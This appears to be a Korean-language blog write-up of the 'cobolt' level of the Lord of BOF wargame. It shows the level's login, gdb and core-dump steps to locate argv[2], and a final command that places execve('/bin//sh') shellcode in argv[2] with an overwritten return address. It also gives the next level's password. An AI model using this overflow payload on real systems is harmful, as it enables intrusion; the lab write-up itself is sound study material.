








# [LOB] cobolt Write-up



```
login : gremlin
Password : hello bof world
```
위의 계정으로 로그인하면 접속된다.

cobolt.c의 내용은 아래와 같이 확인할 수 있다.
``` bash
[gremlin@localhost gremlin]$ cat cobolt.c
```



이번 문제의 힌트는 *small buffer* 이다. gremlin 문제와 비슷하지만 버퍼가 작아 argv[1]에 쉘코드까지 넣을 수 없다. 따라서 argv[2]의 시작 주소를 알아내고, argv[2]에 쉘코드를 넣어주면 된다.



디스어셈블한 코드는 위와 같다.  
main+10에 브레이크 포인트를 걸고 실행시켰다.



$ebp의 4번째 있는 주소(0xbffffac4)가 argv의 포인터 주소이다. 그리고 0xbffffac4에서 차례대로 argv[0], argv[1], argv[2] 순서로 간다. 따라서 argv[2]의 시작 주소는 **0xbffffbf2** 이다.  
주소를 다 맞춰주기 위해 argv[2]의 길이를 100으로 맞췄고, 실행할 때 경로도 써주었다.


하지만 문제가 풀리지 않는다. 주소가 바뀐 것 같아 core 분석하기로 했다. cobolt가 아닌 aaaaaa로 실행시키면 core dump가 생긴다.



``` bash
[gremlin@localhost gremlin]$ gdb -c core
```
gdb 분석과 비슷하다. 리턴 주소로 넣어준 **0xbffffbf2**부터 데이터를 확인해봤다.



NOP으로 채워져 있었다. 앞 부분에 쉘코드가 있을 것 같아 찾아가다보니 **0xbffffbdb** 주소부터 쉘 코드가 시작된다. 따라서 argv[2]의 시작주소는 **0xbffffbdb** 이다.



```
/home/gremlin/cobolt `python -c 'print "\x90"*20 + "\xdb\xfb\xff\xbf"'` `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x90"*75'`
```
문제가 풀렸다.  
비밀번호는 **hacking exposed** 이다.